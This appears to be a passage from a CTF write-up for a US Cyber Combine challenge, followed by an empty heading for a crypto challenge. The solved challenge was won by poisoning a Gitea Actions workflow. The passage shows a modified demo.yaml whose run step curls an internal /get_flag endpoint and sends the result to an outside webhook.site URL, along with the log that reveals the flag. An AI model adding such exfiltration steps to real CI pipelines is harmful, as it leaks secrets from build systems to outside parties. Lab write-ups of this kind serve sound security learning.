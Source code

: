 
  - ANDDD.... after much stumbling around. the solution was in the README. Some people forked the code that had gitea action privileges and edited the demo.yaml. I was scouring through their old commits to see what other users were doing and they were just using the yaml to force the /get_flag endpoint
  - adding: `run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)` since the gitea site `http://git.hackmeto.win/` is technically on the same network, another fork can curl from it and pass the python middleware network check. 


```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo "🎉 The job was automatically triggered by a ${{ gitea.event_name }} event."
      - run: echo "🐧 This job is now running on a ${{ runner.os }} server hosted by Gitea!"
      - run: echo "🔎 The name of your branch is ${{ gitea.ref }} and your repository is ${{ gitea.repository }}."
      - name: Check out repository code
        uses: actions/checkout@v3
      - run: echo "💡 The ${{ gitea.repository }} repository has been cloned to the runner."
      - run: echo "🖥️ The workflow is now ready to test your code on the runner."
      - name: List files in the repository
        run: |
          ls ${{ gitea.workspace }}          
      - run: curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)  
      - run: echo "🍏 This job's status is ${{ job.status }}."
```


- checking the status of his gitea actions log... we see the flag

```
  curl https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/$(curl http://10.0.0.9:8000/get_flag)
0s
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100    40  100    40    0     0   8169      0 --:--:-- --:--:-- --:--:-- 10000
curl: (3) nested brace in URL position 75:
https://webhook.site/0baeaa9f-a9d6-467c-81fb-648c3e08d010/{"flag":"SIVUSCG{thr0ugh_th3_p1p3l1n3}"}
```



## Sign... Compress... Encrypt??? [Crypto] - unsolved

### Task
408
I can never remember what order I'm supposed to do these in... I think I got it right this time!

Author: BenderBot

https://uscybercombine-s4-crypto-sign-compress-encrypt.chals.io


https://ctfd.uscybergames.com/files/4f965bc448a02e079c1f420480a57983/sign_compress_encrypt.py

### My Solve




